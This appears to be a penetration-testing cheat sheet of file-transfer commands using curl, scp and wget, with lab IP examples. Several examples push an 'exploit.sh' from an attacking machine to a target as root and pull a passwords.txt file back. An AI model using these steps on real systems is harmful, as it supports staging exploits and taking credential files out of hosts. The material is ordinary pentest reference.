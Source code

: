 # File Transfer Techniques

## Curl

```
curl http://<IP/<File> --output /<Dir>/<File>
curl http://10.10.10.10./notes.txt --output /tmp/notes.txt
```

## SCP

Transfer file from attacking machine to remote host.

```
scp <File> <User>@<IP>:/<path>/<File>
scp exploit.sh root@10.10.10.10:/tmp/exploit.sh

# With key file
scp <File> -i <id_rsa> <User>@<IP>:/<path>/<File>
scp exploit.sh -i /home/id_rsa root@10.10.10.10:/tmp/exploit.sh
```

Download from remote host to local system

```
scp <User>@<IP>:/<Path>/<File> /<LocalPath>
scp root@10.10.10.10:/tmp/passwords.txt /home/kali/passwords.txt

# With Key File
scp -i <id_rsa> <User>@<IP>:/<Path>/<File> /<LocalPath>
scp -i id_rsa root@10.10.10.10:/tmp/passwords.txt /home/kali/passwords.txt
```

## Wget

```
wget http://<IP>/<File>
wget http://10.10.10.10/notes.txt
```